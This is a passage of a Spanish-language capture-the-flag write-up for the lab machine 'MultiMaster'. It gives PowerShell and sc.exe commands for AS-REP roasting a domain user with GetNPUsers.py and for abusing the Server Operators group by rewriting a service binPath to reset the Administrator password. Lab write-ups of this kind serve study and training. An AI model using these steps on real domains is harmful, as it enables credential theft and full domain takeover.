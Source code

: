 Lo que haremos a continuacion sera habilitar el *UF_DONT_REQUIRE_PREAUHT* del usuario para poder conseguir un **TGTs**. Esto lo conseguiremos de la siguiente manera:

**Lista las propiedades del usuario a nivel de domain**:
```powershell
PS > Get-ADuser jorden
```

**Habilita el *UF_DONT_REQUIRE_PREAUHT* del usuario deseado:**
```powershell
PS > Get-ADuser jorden | Set-ADAccountControl -doesnotrequirepreauth $true
```

---------------------
#### Requesting the TGT of the manipulated user 

Esto nos permitira ejecutar **GetNPUsers.py** y conseguir el hash del usuario:
```
# GetNPUsers.py MEGACORP.LOCAL/ -no-pass -userfile users
```

Y obtendremos el hash:
```
hash
```

Ahora podemos intentar romper el hash de manera *offline* para conseguir la contraseña en texto plano.

---------
#### Abusing Server Operators Group
##### Abusing an existing service by manipulating its binPATH
Nos conectamos con **evil-winrm** con las nuevas credenciales obtenidas. Ahora, como veiamos en el **BloodHound** tenemos capacidad de escritura sobre **Domain Admins** ya que nuestro grupo cuenta con esa capacidad.

----------
##### We change the password of the administrator user after restarting the manipulated service
Lo que haremos es abusar el **binpath**, tomaremos el proceso **browser** y cambiaremos su path.
```powershell
PS > sc.exe config browser binPath="C:\Windows\System32\cmd.exe -c net user Administrator sexcott123!$" 
```

Ahora tendremos que parar el proceso:
```powershell
PS > sc.exe stop browser
```

Y lo volvemos a iniciar:
```powershell
PS > sc.exe start browser
```

Y ya podriamos conectarnos a la maquina victima como el usuario **Administrator** a través de **Evil-WinRm**.


"MultiMaster" ^626d41